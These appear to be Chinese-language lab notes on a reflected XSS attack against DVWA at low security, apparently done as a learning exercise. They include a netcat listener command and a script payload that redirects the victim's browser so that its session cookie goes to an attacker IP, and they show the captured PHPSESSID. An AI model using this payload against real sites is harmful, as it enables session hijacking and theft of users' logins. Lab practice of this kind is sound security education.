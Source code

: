 ## XSS(Cross-Site Scripting)
- 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
- 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 攻击流程
1. 漏洞侦测
    - DVWA Security的安全级别设置为low
    - XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
2. 攻击环境配置与Payload(有效载荷)构建
    - Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
    - `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
    - Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
3. 结果观测
    - **浏览器端：**页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
    - **攻击机终端：**切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
    - **结论：**`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
<img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />
## 总结

